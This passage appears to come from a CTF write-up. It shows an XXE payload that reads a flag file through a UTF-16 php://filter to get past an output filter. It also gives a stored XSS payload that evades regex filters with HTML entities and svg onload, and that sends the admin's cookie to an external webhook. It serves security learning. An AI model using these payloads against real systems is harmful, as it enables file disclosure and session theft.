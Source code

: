 The error message is `You just tried to exfiltrate using base64? Nice. Try again!`

Seems like there is some sort of filter checking the output. We can't convert the PHP flag file into base64. It is still possible to convert the PHP file into UTF-16 though:

```shell
$ curl -D- -XGET 'http://34.107.22.248:30526/parse' --data '<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY exfiltrate SYSTEM "php://filter/convert.iconv.utf-16le.utf-8/resource=/var/www/html/flag">
]>
<foo>&exfiltrate;</foo>'
```
We then get this string

`瑣筦㈰摢㠴㈶㌷㈰㌶㈶㡥㙡㘹挱㍤〳㠳㈱㜰挳〵慦㔷戹㈴戰攱愷ㄱ㉡㍣扡㄰〳੽`

We can convert this to UTF-8 and get the flag!

`ctf{02bd486273026362e8a6961cd3303812073c50fa759b420b1e7a11a2c3ab0130}`

### cross-me
The challenge name is a hint that this is an XSS challenge.

After you have logged in you can post notes to the website. The admin will check every note you create.

When trying to post `<script>` tags we get an error message:

`Invalid input. Failed at /<[^\w<>]*[ \/]\w*/i`

The server is validating our notes using regex. It has quite a few different patterns that it checks:

- `/<[^\w<>]*[ \/]\w*/i`
- `/<(|\/|[^\/>][^>]+|\/[^>][^>]+)>/i`
- `/(\b)(on\S{5,8})(\s*)=|(<\s*)(\/*)script/im`
- ```/["'\(\)\.:\-\+> `]/im```

The best way I found to bypass this check is to convert our javascript into HTML entities:

e.g. `asdasd` -> `&#97;&#115;&#100;&#97;&#115;&#100;`

After trial and error I found out that the `<svg>` tag is your best bet! We can use its **onload** method which is not matched by the regex pattern above. ("load" is shorter than 5 characters).

Let's test this by fetching the admin's cookie. We can't have spaces, and can't have any `>` tag at the end. But it still works:

`<svg/onload=document.location="https://webhook.site/df13af1d-cb2e-4274-a2d2-56b28becad35?c="+document.cookie//<`

Convert the javascript to HTML entities:
```
http --form POST 'http://35.242.253.155:31810/index.php?page=newpost' Cookie:PHPSESSID=47117bffb9bc0406a138d082980b72f2 title='asd' description='<svg/onload=&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&period;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&equals;&quot;&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&period;&#115;&#105;&#116;&#101;&sol;&#100;&#102;&#49;&#51;&#97;&#102;&#49;&#100;&#45;&#99;&#98;&#50;&#101;&#45;&#52;&#50;&#55;&#52;&#45;&#97;&#50;&#100;&#50;&#45;&#53;&#54;&#98;&#50;&#56;&#98;&#101;&#99;&#97;&#100;&#51;&#53;&quest;&#99;&equals;&quot;&plus;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&period;&#99;&#111;&#111;&#107;&#105;&#101;//<'
```
